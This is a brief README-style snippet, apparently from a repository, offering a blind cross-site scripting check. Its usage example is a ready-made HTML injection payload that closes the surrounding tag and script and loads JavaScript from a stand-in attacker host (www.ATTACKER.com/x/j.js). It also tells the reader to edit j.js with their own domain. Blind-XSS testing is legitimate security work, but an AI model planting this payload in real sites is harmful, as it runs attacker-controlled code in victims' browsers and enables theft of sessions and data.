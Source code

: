 Check for blind XSS.

Usage example:

```html
"'></script><script src=//www.ATTACKER.com/x/j.js></script>
```

PS. Please edit j.js with your domain
